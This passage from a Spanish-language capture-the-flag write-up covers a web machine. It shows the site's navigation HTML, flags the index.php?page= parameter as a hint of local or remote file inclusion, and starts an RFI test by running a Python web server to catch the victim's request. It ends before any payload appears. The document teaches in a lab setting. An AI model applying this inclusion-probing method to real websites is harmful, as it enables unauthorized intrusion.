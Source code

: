 ![](/assets/img/quick/1.png)

Igual si vemos el codigo fuente podemos ver lo mismo:

```html
<nav>
        <ul>
            <li><a href="index.php?page=home">Home</a></li>
            <li><a href="index.php?page=cars">Cars</a></li>
            <li><a href="index.php?page=maintenance_and_repair">Maintenance & Repair</a></li>
            <li><a href="index.php?page=about">About</a></li>
            <li><a href="index.php?page=contact">Contact</a></li>
        </ul>
    </nav>
```

Cuando tenemos casos asi de que se incluyen paginas y que ademas se pueda ver en la URL, como nuestro caso (index.php?page=cars), es un indicio para probar LFI (Local File Inclusion) o RFI (Remote File Inclusion)

## Explotacion (RFI - Remote File Inclusion)

**RFI**: Remote File Inclusion es una vulnerabilidad que permite incluir archivos externos y/o remotos al servidor web

Como mencione, la idea es lograr incluir archivos externos, por lo que, para probar, podemos crearnos un servidor web con python  y ver si recibimos una peticion de la maquina victima

```bash
python3 -m http.server 8080
```
Ahora en la URL del sitio web pondremos:
